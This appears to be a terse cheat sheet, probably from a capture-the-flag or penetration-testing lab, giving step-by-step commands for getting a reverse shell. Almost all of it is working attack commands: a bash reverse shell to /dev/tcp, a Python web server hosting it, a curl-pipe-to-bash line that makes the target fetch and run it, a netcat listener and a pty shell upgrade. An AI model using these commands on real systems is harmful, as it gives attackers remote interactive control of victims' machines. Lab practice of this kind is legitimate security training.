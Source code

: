 - create bash script rev.sh with content:
```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

- run server and expose rev.sh as file:
```
python3 -m http.server 80
```

- on remote machine call:
```
curl 10.10.14.106/rev.sh|bash
```

- on local machine call:
```
nc -lnvp 1337
```

- upgrade shell to bash:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- to make if fully interactive:
```
https://gist.github.com/oscar-rk/f27464d7ab0c1fac4adf383b8a3527d3
```
